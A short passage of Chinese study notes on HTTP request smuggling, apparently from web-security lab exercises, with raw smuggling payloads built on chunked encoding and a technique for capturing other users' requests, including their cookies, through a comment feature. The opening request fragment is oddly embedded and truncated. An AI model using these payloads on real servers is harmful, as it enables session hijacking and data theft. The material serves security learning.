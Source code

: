 ```http
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

走私请求中`Content-Length`标头中的值将**确定后端服务器认为请求有多长**，太长的话后端服务器将因等待请求完成而超时。

解决方案是**猜测一个比提交的请求大一点的初始值**

```
lab：
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

#### Capturing other users' requests

如果应用程序包含**允许存储和检索文本数据**的任何类型的功能，那么可以使用HTTP请求走私来捕获其他用户请求的内容

作为攻击工具的合适功能包括评论、电子邮件、个人资料描述和屏幕名称

ORIGIN：

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0
```
